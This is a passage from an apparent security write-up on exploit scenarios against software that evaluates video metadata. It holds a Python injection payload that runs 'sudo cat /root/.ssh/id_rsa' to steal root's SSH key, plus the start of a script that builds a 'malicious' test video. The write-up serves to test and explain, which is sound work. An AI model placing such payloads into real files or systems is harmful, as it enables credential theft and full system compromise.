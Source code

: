 ## Exploit Scenario 4: Privilege Escalation

### Attack Vector
Attempt to escalate privileges and access restricted resources.

### Malicious Payload
```python
# Embedded in video metadata:
payload = """__import__('subprocess').run([
    'sudo', '-n', 'cat', '/root/.ssh/id_rsa'
], capture_output=True, text=True).stdout or 'failed'"""
```

### How It Works
1. Attempt to access root SSH keys
2. If successful, enables further system compromise
3. Provides attacker with administrative access

### Impact
- Administrative privilege access
- Complete infrastructure compromise
- Ability to access all connected systems

## Real-World Attack Simulation

### Step 1: Create Malicious Video File

```python
#!/usr/bin/env python3
"""
Create a malicious video file for testing.
This simulates how an attacker would craft the attack.
"""

import json
import tempfile
import subprocess

def create_malicious_video():
    """Create a video file with malicious metadata."""
    
    # Create a simple video file
    cmd = [
        'ffmpeg', '-f', 'lavfi',
        '-i', 'testsrc=duration=1:size=320x240:rate=1',
        '-c:v', 'libx264',
        'malicious_video.mp4'
    ]
    
    try:
        subprocess.run(cmd, check=True, capture_output=True)
        print("Created base video file: malicious_video.mp4")
    except subprocess.CalledProcessError:
        print("FFmpeg not available - using mock approach")
        return create_mock_malicious_metadata()
    
    # Now we would need to modify the metadata
    # In practice, this requires specialized tools or crafted MP4 files
    return "malicious_video.mp4"

def create_mock_malicious_metadata():
    """Create mock malicious metadata for testing."""
```